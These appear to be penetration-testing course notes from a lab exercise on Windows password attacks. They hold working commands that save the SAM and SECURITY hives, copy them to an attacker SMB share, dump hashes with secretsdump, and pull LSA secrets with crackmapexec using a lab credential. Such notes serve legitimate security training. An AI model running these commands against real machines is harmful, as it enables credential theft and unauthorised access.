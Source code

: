 ### Hashcat also have existing rules
`ls /usr/share/hashcat/rules/`

We can use [CeWL](https://github.com/digininja/CeWL) to crawl websites for company passwords. 
We can now use another tool called CeWL to scan potential words from the company's website and save them in a separate list. We can then combine this list with the desired rules and create a customized password list that has a higher probability of guessing a correct password. We specify some parameters, like the depth to spider (-d), the minimum length of the word (-m), the storage of the found words in lowercase (--lowercase), as well as the file where we want to store the results (-w).

`cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist`

Check if you can use any other service to brute force. Add more threads to hydra. 

to crack zip pws: `sudo fcrack -u -D -p ./mut_password.list Notes.zip`

# Attacking SAM
SAM is a file that stores users, groups etc on Windows machines. It's used by services like Kerberos authentication or NTLM authentiation.
### Open powershell as administrator on target
```poweshell
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

To transfer files we can use `impacket`
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/`

Then move the data:
```powershell
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```

Dumping hashes with `impackets`
`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
Though we cannot dump it without boot key


# Dumping LSA Secrets Remotely
`crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`

`crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

# Transfering files:
`sudo impacket-smbserver share -smb2support /tmp/smbshare`
`mv <file to move> \\<ip>\share`
or mount
`net use d: \\<IP>\share (potantially /user:test test)`
in that case:
`sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

